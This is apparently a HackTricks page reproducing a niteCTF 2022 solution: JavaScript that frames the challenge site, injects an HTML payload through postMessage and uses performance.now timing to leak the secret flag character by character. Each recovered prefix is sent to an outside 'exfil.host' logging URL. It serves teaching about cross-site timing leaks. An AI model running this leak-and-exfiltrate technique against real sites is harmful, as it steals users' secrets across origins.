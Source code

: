# performance.now example

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}

**Example taken from [https://ctf.zeyu2001.com/2022/nitectf-2022/js-api](https://ctf.zeyu2001.com/2022/nitectf-2022/js-api)**

```javascript
const sleep = (ms) => new Promise((res) => setTimeout(res, ms))

async function check(flag) {
  let w = frame.contentWindow
  w.postMessage(
    { op: "preview", payload: '<img name="enable_experimental_features">' },
    "*"
  )
  await sleep(1)
  w.postMessage({ op: "search", payload: flag }, "*")
  let t1 = performance.now()
  await sleep(1)
  return performance.now() - t1 > 200
}

async function main() {
  let alpha =
    "abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ-}"
  window.frame = document.createElement("iframe")
  frame.width = "100%"
  frame.height = "700px"
  frame.src = "https://challenge.jsapi.tech/"
  document.body.appendChild(frame)
  await sleep(1000)

  let flag = "nite{"
  while (1) {
    for (let c of alpha) {
      let result = await Promise.race([
        check(flag + c),
        new Promise((res) =>
          setTimeout(() => {
            res(true)
          }, 300)
        ),
      ])
      console.log(flag + c, result)
      if (result) {
        flag += c
        break
      }
    }
    new Image().src = "//exfil.host/log?" + encodeURIComponent(flag)
  }
}

document.addEventListener("DOMContentLoaded", main)
```

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


